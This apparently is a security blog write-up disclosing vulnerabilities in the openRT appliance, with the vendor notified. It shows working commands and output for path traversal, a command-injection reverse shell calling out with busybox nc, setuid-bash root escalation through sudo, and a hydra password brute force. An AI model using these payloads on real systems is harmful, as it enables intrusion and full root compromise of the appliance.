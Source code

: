 ```yaml
---
title: openRT Vulnerabilities
description: A review of the openRT appliance as we walkthrough exploiting an RCE and then privilege elevation
date: 2025-02-20
social_image: '/media/images/somuchwin.png'
tags: [openRT, RCE ]
---
```

# Vulnerability Review of openRT

Here we're going to conduct a web application security review of the OpenRT application.

[https://github.com/amcchord/openRT/]

Installed from commit 59185b055ab2cf79e2fc2b1854c11e1a0bb5f798, the latest as of 20-03-25. This is a nice application to review because:

- It is extremely quick and easy to install
- The above is still true if you have no background knowledge of the appliances it works with
- Multiple languages are involved

## Vendor Response

Austin email back within hours of this report (which puts him about nine months ahead of an RMM vendor) clarifying the intended usage of the application, which they immediately documented. A screenshot of the updated README is below:

![openRT Disclaimer](/media/images/openrt_documentation.png)

And to be clear, this is an **entirely acceptable** position as long as you, the user, consider this in your deployment and threat modelling. Accordingly, this write up should be read through the lense of a CTF write up, more than a vulnerability publication.

## Exposed phpinfo()

As a minor annoyance, [http://172.17.44.48/phpinfo.php] is exposed in a default build.

## Arbitrary download

To describe an actual vulnerability, we can review the file download code here: [https://github.com/amcchord/openRT/blob/main/web/download.php], specifically:

```php


$agent_id = isset($_GET['agent']) ? $_GET['agent'] : '';
$path = isset($_GET['path']) ? $_GET['path'] : '';

if (!$agent_id || !$path) {
    die("Missing required parameters");
}

// Construct full path
$base_path = "/rtMount/$agent_id";
$full_path = "$base_path/$path";

// Security checks
if (!str_starts_with(realpath($full_path), realpath($base_path))) {
    die("Invalid path");
}
```

You can see there's been an attempt an enforcing a base path. In fact realpath() is exactly the function that's typically forgotten during typical arbitrary file download vulnerabilities. What's special in this case is that the base path is itself able to be set by a user, and `/rtMount/../` has a `realpath()` of the root directory. Therefore the following works:

```bash
$ curl "172.17.44.48/download.php?agent=../&path=../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
..
```

## RCE

Finally we get to the good stuff. Let's look at [https://github.com/amcchord/openRT/blob/main/web/check_mount.php]

```php
$mount_path = "/rtMount/$agent_id";

// Check if the directory exists and has mounted volumes
$output = [];
$return_var = 0;
exec("mount | grep '$mount_path' 2>&1", $output, $return_var);
```
This looks to be a classic command injection vulnerabililty. We can first test this runs as expected:

```bash
curl "172.17.44.48/check_mount.php?agent_id=test';touch%20pwned'"
```

And indeed it does, with `/usr/local/openRT/web/pwned` created. Now to exploit it:

```bash
$ curl "172.17.44.48/check_mount2.php?agent_id=test';busybox%20nc%20172.17.33.22%204444%20-e%20sh'"
```

From another tab, we can receive a connection and upgrade it to a full shell:

```bash
none@none-Virtual-Machine:~$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.44.48 34732
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openrt:/usr/local/openRT/web$ ^Z
[1]+  Stopped                 nc -lnvp 4444
none@none-Virtual-Machine:~$ stty raw -echo; fg
nc -lnvp 4444

www-data@openrt:/usr/local/openRT/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(openrt)
www-data@openrt:/usr/local/openRT/web$ 
```

## Root Privilege Elevation

The setup file [https://github.com/amcchord/openRT/blob/main/setup/kioskSetup.sh] adds sudo privileges for the www-data user for a few specific commands. We can review `rtImport.pl` for this interesting line:

```perl
        $status = `zpool import -d $device $pool_name 2>&1`;
```

The root exploit from here writes itself:

```bash
cp /bin/bash ./bash
sudo /usr/local/openRT/openRTApp/rtImport.pl import "test; chown root ./bash #"
sudo /usr/local/openRT/openRTApp/rtImport.pl import "test; chmod 4755 ./bash #"
www-data@openrt:/usr/local/openRT/web$ ./bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data),1001(openrt)
```

Given we can use this privesc immediately following the previous RCE, we now have a root RCE.

## Easily brute forced credentials

Default credentials are usually acceptable if you are pushed to change them, but as far as I can tell there's no documented method of changing the generated credential. The file [https://github.com/amcchord/openRT/blob/main/setup/nasSetup.sh] uses this code:

```
RANDOM_NUM=$(printf "%04d" $((RANDOM % 10000)))
PASSWORD="openRT-$RANDOM_NUM"
```

The random data involved is very small, specifically limited to four numbers. I generally dislike reporting on brute force vulnerabilities, but below shows a working brute force in under a minute.

```bash

for i in {0000..9999}; do
    echo "openRT-$i" >> openrt.txt
done
                                                                                                                                                   
none@kali:~/practice$ hydra -l explorer -P ./openrt.txt -f ftp://172.17.44.48 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 19:59:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking ftp://172.17.44.48:21/
[21][ftp] host: 172.17.44.48   login: explorer   password: openRT-0134
[STATUS] attack finished for 172.17.44.48 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 20:00:29
```

